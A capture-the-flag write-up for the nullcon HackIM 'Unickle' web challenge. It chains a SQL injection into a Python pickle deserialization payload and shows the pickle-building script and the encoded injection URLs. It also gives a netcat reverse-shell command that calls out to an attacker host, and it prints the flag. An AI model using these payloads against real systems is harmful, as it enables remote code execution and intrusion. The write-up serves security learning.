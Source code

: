 # nullcon HackIM : Unickle

**Category:** Web
**Points:** 200
**Solves:** 
**Description:**

> OSaaS is the new trend for 2016! Store your object directly in the cloud. Get rid of the hassle of managing your own storage for object with Osaas. Unickle currently offers a beta version that demonstrates how OSaaS will make the internet a better place... One object at a time!!
> 
> 
> <http://54.84.124.93/>

[Server files](./var/www)

## Write-up

**by d1rt**

Immediately on visiting the target URL you're greeted with a list of "objects", each has an id.

`http://54.84.124.93/?cat=1`

The `cat` param is a sql injection opportunity

`http://54.84.124.93/?cat=1/**/or/**/1=1/**/union/**/all/**/select/**/1,2,3,4--`

This injection leads to a Python error being printed on the final row of the output table in the 3rd field.

`1    2    'int' object has no attribute 'encode'  4`

This means we now control a payload that is being passed to Python for execution, based on the output of other fields and hints in intro, it's a Python object injection flaw.  Now we craft our injected object.

```
#!/usr/bin/python2

import pickle
import os

class Inject(object):
    def __reduce__(self):
        return (os.system, ('/bin/ls',))

print pickle.dumps(Inject())
```

Confirm it works

```
$ ./makepickle.py 
cposix
system
p0
(S'/bin/ls'
p1
tp2
Rp3
.
```

Not sqli friend, need to change out those new lines

```
$ ./makepickle.py | awk '{printf $1"%0a"}'
cposix%0asystem%0ap0%0a(S'/bin/ls'%0ap1%0atp2%0aRp3%0a.%0a
```

Now use it in the injection

`http://54.84.124.93/?cat=1/**/or/**/1=1/**/union/**/all/**/select/**/1,2,%27cposix%0asystem%0ap0%0a(S'/bin/ls'%0ap1%0atp2%0aRp3%0a.%0a%27,4--`

We have a functional injection, but not the value we'd expected

`1    2   512  4`

We then use the injection to trigger a reverse shell using netcat

`http://54.84.124.93/?cat=1/**/or/**/1=1/**/union/**/all/**/select/**/1,2,%27cposix%0asystem%0ap0%0a(S'/bin/nc -e/bin/bash 1.3.3.7 31337'%0ap1%0atp2%0aRp3%0a.%0a%27,4--`

```
$nc -vvv -l -p 31337
Listening on any address 31337
Connection from 54.84.124.93:47281
find / -name 'flag'
/var/www/flag
cat /var/www/flag
flag{OSaaS_with_union_and_tickle_trend_it_is!}
```


## Other write-ups and resources

* none yet
